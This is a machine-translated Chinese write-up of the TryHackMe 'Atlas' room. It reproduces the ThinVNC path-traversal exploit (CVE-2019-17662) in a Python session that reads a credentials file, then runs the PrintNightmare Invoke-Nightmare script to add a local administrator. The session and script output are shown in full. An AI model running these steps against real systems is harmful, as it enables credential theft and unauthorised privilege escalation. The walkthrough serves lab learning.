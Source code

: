 [“MurilandOracle”(2022 a，任务 4)](https://tryhackme.com/room/atlas) 挑战竞争者手动执行 ThinVNC 漏洞利用。为了了解他设计的漏洞利用是如何工作的，我将检查其源代码的相关部分。以下是穆兰多尔对破碎的概念证明的修正的摘录:

在[之后穆兰多尔(2022b)](https://github.com/MuirlandOracle/CVE-2019-17662)

MurilandOracle 利用的重要之处在于，它从命令行接受参数，并将目标 URL 作为字符串存储在`url`中。要攻击的端口作为一个整数存储在`port`变量中。

根据是否使用了`ssl`参数，`url`使用了`http://`或`https://`。然后，该漏洞利用`GET`准备好的语句发出`HTTP`请求。具体来说，该漏洞将发出的请求是:

```
http://atlas.thm:8080/abc/../../ThinVNC.ini
```

我手动“复制”了这个漏洞，方法是打开 python3 shell，手动输入 MurilandOracle 漏洞后的命令:

```
**┌──(dna㉿deniers)-[~/atlas]
└─$ python3  **                  
Python 3.9.11 (main, [redacted]) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
**>>> import requests
>>> url_to_attack = "http://atlas.thm:8080/abc/../../ThinVNC.ini"
>>> request = requests.Request(method="GET", url=url_to_attack)
>>> prep_request = request.prepare()**
**>>> prep_request.url = url_to_attack
>>> suss = requests.Session()**
**>>> attack = suss.send(prep_request, timeout=3)
>>> attack.text**
'[Authentication]\r\nUnicode=0\r\n***User=Atlas***\r\n***Password=[redacted]***\r\nType=Digest\r\n[Http]\r\nPort=8080\r\nEnabled=1\r\n[Tcp]\r\nPort=\r\n[General]\r\nAutoStart=1\r\n'
**>>>**
```

阿洛拉。

## A.2 使用 Mimikatz 转储哈希

我有一个坏习惯，就是在做辅导室的时候“把事情搞混”，这有点违反规则。在这个房间里，我在进行权限升级后使用了 *Meterpreter* 模块。

在目标机器上，我打开了 PowerShell，并像前面一样启动了 InvokeNightmare exploit:

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.**PS C:\Users\Atlas> Import-Module \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1**Security warning
Run only scripts that you trust. While scripts from the internet can be useful, this script can potentially harm your
computer. If you trust this script, use the Unblock-File cmdlet to allow the script to run without this warning
message. Do you want to run \\tsclient\atlas\CVE-2021-1675\CVE-2021-1675.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): ***R***
**PS C:\Users\Atlas> Invoke-Nightmare**
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
**PS C:\Users\Atlas> net user**User accounts for \\GAIA-------------------------------------------------------------------------------
adm1n **[*]**                 Administrator            Atlas
DefaultAccount           Guest                    WDAGUtilityAccount
The command completed successfully.**PS C:\Users\Atlas>**
```
